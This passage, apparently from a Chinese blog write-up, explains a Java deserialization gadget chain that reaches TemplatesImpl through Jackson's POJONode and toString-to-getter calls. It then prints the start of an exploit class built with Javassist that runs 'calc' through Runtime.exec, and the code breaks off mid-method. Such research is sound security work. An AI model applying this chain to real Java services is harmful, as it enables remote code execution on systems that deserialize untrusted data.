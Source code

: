 跟进方法看下，发现依次调用了以下方法：

```java
toString -> InternalNodeMapper#nodeToString -> ObjectWriter#writeValueAsString
```

这里穿插一个 Jackson 的知识点：在 Jackson 中将对象序列化成 json 字符串方法为`ObjectMapper#writeValueAsString`，我们测试一下该方法，发现该方法不仅能完成对象转化还会默认调用 get 方法：

![image-20231109154440296](assets/1701668724-b6874f846bd69e2c367c12c2b408acd0.jpg)

所以我们就找到了 getter 方法的入口（用来接 templateimpl 的链子），这里我们还可以得出只要是继承了 BaseJsonNode 类，并且没有重写`toString()`方法（即需要执行父类的`toString()`方法），就能够替代 POJONode 这个类。

3、EXP

```java
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class test {
    public static void main(String[] args) throws Exception {
        // 1、使用了 Javassist 构建 templates 的_bytecodes 属性
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("evil");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        ctClass.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{},ctClass);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        ctClass.addConstructor(constructor);
```